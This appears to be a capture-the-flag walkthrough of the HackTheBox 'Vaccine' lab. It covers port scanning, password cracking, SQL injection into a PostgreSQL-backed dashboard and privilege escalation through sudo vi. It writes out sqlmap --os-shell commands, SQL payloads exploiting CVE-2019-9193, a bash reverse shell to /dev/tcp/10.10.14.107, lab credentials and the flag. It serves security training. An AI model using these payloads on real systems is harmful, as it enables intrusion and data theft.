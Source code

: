 ## Recon 

- Target Information
```
Host = "10.10.10.46"
```
![](./IMG/0.png)

- nmap result 

```
# nmap -sV -sS 10.10.10.46
```
![](./IMG/1.png)


```
# nmap -O 10.10.10.46
```
![](./IMG/2.png)


- With the result, we know the open port 
    1. ssh service (port 22)
    2. ftp service (port 21)
    3. HTTP service (port 80)
- let's check the web 

![](./IMG/3.png)


- gobuster guess the path 

![](./IMG/4.png)

## Information Gathering 

### Using the discloure information from last challenge 

- In the last challenge, we find the frp user's password, try it now (ftpuser/mc@F1l3ZilL4)

![](./IMG/5.png)

- Find the zip file which name is backup.zip 
- It's a suspicious file 
- In FTP session , use ```get ``` command to download it

![](./IMG/6.png)
### Analyze and crack the zip file 

- [Zip crack](https://linuxconfig.org/how-to-crack-zip-password-on-kali-linux)
- Analyze the backup.zip file, first , unzip it
- But it is protected by passwrod 
- Use the crack tool :　fcrackzip

![](./IMG/7.png)

```
# fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt backup.zip
```
![](./IMG/8.png)

- Get zip file secret : 741852963

### Analyze the source code 

- unzip the backup.zip
- In this zip file, there are 2 file
    1. index.php (It seems the source code of index page)
    2. style.css
![](./IMG/9.png)

- Read the index.php, we can find the admin password protected by md5 hash

![](./IMG/10.png)

- Try to crack it with online tool 
- [md5 crack](https://crackstation.net/)

![](./IMG/11.png)

- Get admin password : qwerty789
- Using the password to login and direct to dashboard.php page 

![](./IMG/12.png)

## Foothold 

- Check this page, the search function will show the search parameter in URL 

![](./IMG/13.png)

![](./IMG/14.png)

- Let's try to find the vulnerability on the search parameter


- Error message 
```
    ERROR: unterminated quoted string at or near "'" LINE 1: Select * from cars where name ilike '%a'%' ^
```
![](./IMG/15.png)

- Using sqlmap scan the vulnerability 

```
# sqlmap -u http://10.10.10.46/dashboard.php?search=a --cookie='PHPSESSID=pbjf14pa57rmk9oi8o4luae69n' 
```

![](./IMG/16.png)

![](./IMG/17.png)

- Try to use UNION-Base Sqli to attack this web and find the sql version 

```
# ' UNION SELECT NULL, NULL, NULL , NULL, VERSION() --
```

- We can know the DB is PostgreSQL and the version is 11.5

![](./IMG/18.png)

- There is exiting vulnerability for PostgreSQL which version greater than 9.3 - CVE-2019-9193

- PostgreSQL's cve（CVE-2019-9193）, the detail is 
    - The attacker who has the read permission of DB server can expoit this Loopholes and achiev the any command execution.
    - The detail research will write on [This article](https://hackmd.io/ak4VOQtDQKWEDWzIpKVMyQ)
    
- Exploit by sqlmap 

```
# sqlmap -u http://10.10.10.46/dashboard.php?search=a --cookie='PHPSESSID=pbjf14pa57rmk9oi8o4luae69n'  --os-shell
```

- Exploit manually 

```
'; CREATE TABLE cmd_exec(cmd_output text); --
'; COPY cmd_exec FROM PROGRAM 'bash -c ''bash -i >& /dev/tcp/10.10.14.107/1234 0>&1'''; -- 
```

![](./IMG/19.png)

- Get shell 

![](./IMG/20.png)

## Privileged Escalation 

- Get more information to escalation the Privileged 
```
# cat dashboard.php
```

![](./IMG/21.png)

```
# $conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");

```
![](./IMG/22.png)


- Let’s upgrade to a tty shell and continue enumeration. 

```
SHELL=/bin/bash script -q /dev/null
```
![](./IMG/23.png)

- This password which found in the ```dashboard.php``` can be used to view the user’s sudo privileges.

```
sudo -l
```
![](./IMG/24.png)

- The user is allowed to edit the configuration ```/etc/postgresql/11/main/pg_hba.conf using vi.``` This can be leveraged to gain a root shell and access root.txt.

```
sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

![](./IMG/25.png)

- In the vi screen, use ```:!/bin/sh``` to get the root permission 

![](./IMG/26.png)

- we get the root permission to execute the command 
- So, read the root.txt and get the flag

![](./IMG/27.png)


- Flag :　dd6e058e814260bc70e9bbdef2715849

## Reference 

- [Write up 1](https://www.linkedin.com/pulse/hack-box-starting-point-vaccine-nathan-barnes/?trk=read_related_article-card_title)
- [Write up 2](https://guidedhacking.com/threads/hackthebox-vaccine-walkthrough.17256/?__cf_chl_jschl_tk__=pmd_kPZGsez7ZWLKzEB5AJoX9AuGQVPhLUK_kFXUs3kGc.g-1632483722-0-gqNtZGzNAlCjcnBszQfR)
- [Write up 3](https://www.aldeid.com/wiki/HackTheBox-StartingPoint-Vaccine)
- [Write up 4](https://www.rffuste.com/2020/05/14/htb-starting-point-vaccine-write-up/)
- [Zip crack](https://linuxconfig.org/how-to-crack-zip-password-on-kali-linux)
- [md5 crack](https://crackstation.net/)
- [FTP command](https://www.howtoforge.com/tutorial/how-to-use-ftp-on-the-linux-shell/)
- [Postgresql 9.3 exploit db](https://www.exploit-db.com/exploits/46813)

### CVE Research 

- [CVE Detail - CVE-2019-9193](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-9193)
- [NIST CVE-2019-9193](https://nvd.nist.gov/vuln/detail/CVE-2019-9193)
- [Postgresql CVE-2019-9193](https://www.postgresql.org/about/news/cve-2019-9193-not-a-security-vulnerability-1935/)
- [Reproduce-1 :  CVE-2019-9193](https://cloud.tencent.com/developer/article/1472565)
- [Reproduce-2 : CVE-2019-9193](https://zgao.top/cve-2019-9193-postgresql-%E9%AB%98%E6%9D%83%E9%99%90%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/)
- [Reproduce-3 : CVE-2019-9193](http://pyspiderking.cn/index.php/2021/08/15/pg-cve-2019-9193/)


###### tags: `HackTheBox` `linux`